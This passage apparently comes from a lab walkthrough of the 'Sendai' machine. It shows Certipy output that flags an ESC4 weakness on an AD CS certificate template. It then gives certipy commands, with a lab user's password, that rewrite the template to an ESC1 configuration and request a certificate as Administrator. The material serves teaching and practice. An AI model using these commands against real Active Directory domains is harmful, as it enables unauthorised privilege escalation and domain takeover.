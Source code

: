```text
                                          SENDAI.VL\Enterprise Admins
                                          SENDAI.VL\ca-operators
        Write Dacl Principals           : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
                                          SENDAI.VL\ca-operators
        Write Property Enroll           : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Domain Computers
                                          SENDAI.VL\Enterprise Admins
    [+] User Enrollable Principals      : SENDAI.VL\ca-operators
                                          SENDAI.VL\Domain Computers
    [+] User ACL Principals             : SENDAI.VL\ca-operators
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

We have genericAll over the **SendaiComputer** template. Therefore lets now exploit ESC4.

We will apply the ESC1 configuration to the **SendaiComputer** template because as **Clifford.Davey** which is a member of **CA_Operators** has genericAll over the vulnerable certificate template.

Using Ly4k’s certipy to perform this attack.

```bash
certipy template -u 'Clifford.Davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66  -template 'SendaiComputer' -write-default-configuration
```

![image.png](/assets/images/Sendai_VL/image%2037.png)

### ESC1

Now after applying ESC1’s default configuration to the **SendaiComputer** template we can do is request a certificate on behalf of any user this is a classic ESC1 attack.

So lets request a certificate on behalf of the Administrator.

```bash
certipy req -u 'Clifford.Davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -ca 'sendai-DC-CA' -template 'SendaiComputer' -upn 'Administrator@sendai.vl'
```
